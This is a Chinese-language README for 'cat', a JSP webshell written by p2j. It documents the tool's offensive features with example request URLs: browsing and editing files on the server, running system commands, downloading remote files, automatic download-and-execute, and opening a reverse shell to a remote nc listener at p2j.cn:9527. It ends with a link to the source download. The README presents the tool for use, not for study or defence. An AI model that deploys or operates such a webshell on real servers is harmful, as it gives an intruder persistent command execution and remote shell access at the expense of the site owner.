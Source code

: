 #cat小工具  
#Author: p2j  

我觉得这都算不上什么webshell了，写这个只是为了简化一些操作。cat提供了简单的的文件遍历、管理、命令执行、反弹shell、文件下载、自动下载并执行这么几个小功能。

web界面只是一个简单的文件目录浏览功能和文件下载功能：  

![img](1.jpg)  

点击文件名可以编辑对应的文件，新建文件也可以在这里进行File地址写上需要编辑的文件绝对路径就行了：  

![img](2.jpg)   

执行系统命令会比较麻烦，因为需要自己写参数了：  
![img](3.jpg)  

    请求：http://localhost:8080/Struts2/cat.jsp?action=exec&cmd=ifconfig  

参数:  

    action=exec  

    cmd=需要执行的命令。  

文件下载分为远程文件下载和本地文件下载。本地文件下载直接点击下载即可从服务器上下载对应的文件。而远程文件下载的则需要继续以参数的方式请求：  

![img](4.jpg) 

    请求：http://localhost:8080/Struts2/cat.jsp?action=downloadL&url=http://www.baidu.com/img/bdlogo.png&path=bdlogo.png  

参数：  

    action=downloadL

    url=需要下载的文件的URL地址

    path=文件保存的绝对路径，注意如果只写文件名会下载到当前运行环境的目录下(比如tomcat会下载到tomcat的bin目录)。

本地文件下载如遇到目录则自动打包成zip。  

自动下载并执行，这个功能实际上是为了简化操作。下载某个文件然后可以用命令去调用它。这个命令如果能正常执行完是会有回显的。并且下载的文件会在命令执行结束后自动删除掉。  

![img](5.jpg)   

    请求：http://localhost:8080/Struts2/cat.jsp?action=auto&url=http://www.baidu.com/img/bdlogo.png&fileName=bdlogo.png&cmd=cat%20bdlogo.png

参数：  

    action=auto

    url=需要下载的文件的URL地址

    fileName=文件名

    cmd=需要执行的系统命令

反弹shell，这里实现的仅仅是一个系统执行命令的入口反弹，而非反弹一个具体的文件流。即给远程监听的nc反弹一个能够执行命令的入口。  

![img](6.jpg)   

    请求：http://localhost:8080/Struts2/cat.jsp?action=shell&host=p2j.cn&port=9527

参数：  

    action=shell

    host=远程IP

    port=远程监听的端口


源码下载：[Cat.zip](http://pan.baidu.com/s/1hqmWGFM)  
[url](http://p2j.cn/?p=1533)